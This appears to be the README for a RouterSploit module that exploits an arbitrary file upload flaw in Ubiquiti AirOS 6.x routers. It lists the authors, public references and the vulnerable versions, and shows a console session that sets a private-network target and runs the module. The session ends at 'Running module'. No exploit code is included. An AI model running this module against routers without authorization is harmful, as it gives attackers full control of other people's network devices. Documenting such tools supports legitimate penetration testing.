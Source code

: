 # AirOS 6.x - Arbitrary File Upload

## Description
Exploit implementation for AirOS 6.x - Arbitrary File Upload. If the target is vulnerable is possible to take full control of the router

## Authors
* 93c08539 # vulnerability discovery
* Vinicius Henrique Marangoni # routersploit module

## References
* [https://hackerone.com/reports/73480](https://hackerone.com/reports/73480)
* [https://www.exploit-db.com/exploits/39701/](https://www.exploit-db.com/exploits/39701/)

## Vulnerable devices
* AirOS 6.x

## Usage
```
rsf > use exploits/ubiquiti/airos_6_x
rsf (AirOS 6.x - Arbitrary File Upload) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. https://192.168.1.1
   port       443                  Target port e.g. 443


rsf (AirOS 6.x - Arbitrary File Upload) > set target https://192.168.1.1
[+] {'target': 'https://192.168.1.1'}
rsf (AirOS 6.x - Arbitrary File Upload) > run
[*] Running module...
```
